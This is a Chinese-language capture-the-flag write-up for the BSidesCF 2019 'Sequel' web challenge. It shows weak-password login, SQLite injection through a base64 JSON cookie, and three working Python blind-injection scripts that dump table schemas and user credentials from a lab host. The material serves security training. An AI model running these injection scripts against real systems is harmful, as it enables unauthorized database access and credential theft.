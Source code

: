 # \[BSidesCF 2019]Sequel

## \[BSidesCF 2019]Sequel

## 考点

* sqlite3盲注

## wp

登录页面，随便输提示`Username must be alphanumeric.`

![](<../.gitbook/assets/image (31).png>)

弱口令爆破，guest/guest，登录后提示数据库

![](<../.gitbook/assets/image (5) (2).png>)

抓包发现cookie是`1337_AUTH=eyJ1c2VybmFtZSI6Imd1ZXN0IiwicGFzc3dvcmQiOiJndWVzdCJ9`

base64解码是`{"username":"guest","password":"guest"}`，这里可能存在注入

改成`{"username":"guest'#","password":"guest"}`，提示Invalid user.

改成`{"username":"guest"#","password":"guest"}`，提示Server Error

`"`加个转义符试试，`{"username":"guest\"#","password":"guest"}`，还提示Invalid user.

把`#`改成`--`，`{"username":"guest\"--","password":"guest"}`，成功登录

`{"username":"\" or 1=1--","password":"guest"}`，成功登录

盲注脚本如下

```python
#coding=utf-8 
import requests
import base64
import time
url = 'http://60973c61-7d7e-406d-8b6d-4cdce6d2c6d5.node4.buuoj.cn:81/sequels'
s = requests.session()
flag = ''
table = " ,0123456789_abcdefghijklmnopqrstuvwxyz"
for i in range(1, 50):
    print(flag)
        
    low = 0
    high = 38
    mid = (low+high)//2
    while low < high:
        payload = '{"username":"\\" or 1=((substr((select name from sqlite_master where type=\\"table\\" limit 1 offset 0),'+str(i)+',1))>\\"'+table[mid]+'\\")--","password":"guest"}'
        #  print(payload)
        cookies = {
            '1337_AUTH': base64.b64encode(payload.encode()).decode(),
        }
    
        r = s.get(url=url, cookies=cookies)
        time.sleep(0.3)
        
        # true
        if len(r.text) > 3400:
            low = mid + 1
        # false
        if 'Invalid user' in  r.text:
            high = mid
        mid = (low+high)//2
            
        if low == high:
            flag = flag + table[low]
            break
```

得到表userinfo，reviews，notes

由于sqlite3在进行字符比较时不区分大小写，所以在注入字段时不能用二分法，同时可能会有不可见字符，所以对结果进行hex编码然后再布尔盲注判断字符

```python
#coding=utf-8 
import requests
import base64
import time
url = 'http://58104486-6db8-40ed-9632-8897a13ff8ae.node4.buuoj.cn:81/sequels'
s = requests.session()
flag = ''
table = '0123456789ABCDEF'
for i in range(1, 5000):
    print(flag)
        
    for j in table:
        
        payload = '{"username":"\\" or 1=(substr((select hex(sql) from sqlite_master where type=\\"table\\" and name=\\"userinfo\\" limit 1 offset 0),'+str(i)+',1)=\\"'+j+'\\")--","password":"guest"}'

        cookies = {
            '1337_AUTH': base64.b64encode(payload.encode()).decode(),
        }
        print(payload)
        r = s.get(url=url, cookies=cookies)
        time.sleep(0.3)
        print(r.text)
        # true
        if len(r.text) > 3400:
            flag = flag + j
            break
        # false
        if 'Invalid user' in  r.text:
            continue
 
```

结果

```sql
CREATE TABLE userinfo (
                        username text not null primary key,
                        password text not null)
```

然后注入，得到用户名密码

```python
#coding=utf-8 
import requests
import base64
import time
url = 'http://58104486-6db8-40ed-9632-8897a13ff8ae.node4.buuoj.cn:81/sequels'
s = requests.session()
flag = ''
table = '0123456789ABCDEF'
for i in range(1, 5000):
    print(flag)
        
    for j in table:
        
        payload = '{"username":"\\" or 1=(substr((select hex(group_concat(username)) from userinfo),'+str(i)+',1)=\\"'+j+'\\")--","password":"guest"}'

        cookies = {
            '1337_AUTH': base64.b64encode(payload.encode()).decode(),
        }
        #print(payload)
        r = s.get(url=url, cookies=cookies)
        time.sleep(0.3)
        #print(r.text)
        # true
        if 'No note for' in r.text:
            flag = flag + j
            break
        # false
        if 'Invalid user' in  r.text:
            continue
 
```

结果如下

```
guest,sequeladmin
guest,f5ec3af19f0d3679e7d5a148f4ac323d
```

![](<../.gitbook/assets/image (22) (1).png>)

## 小结

sqlite3注入

1. 找表`select name from sqlite_master where type="table"`，需要限制输出的话是`select name from sqlite_master where type="table" limit 1 offset 0`，修改offset，从0开始，如果超过表的数量会返回错误
2. 找字段`select sql from sqlite_master where type="table" and name="userinfo"`
3. 盲注考虑编码再注入，避免很多不必要的麻烦
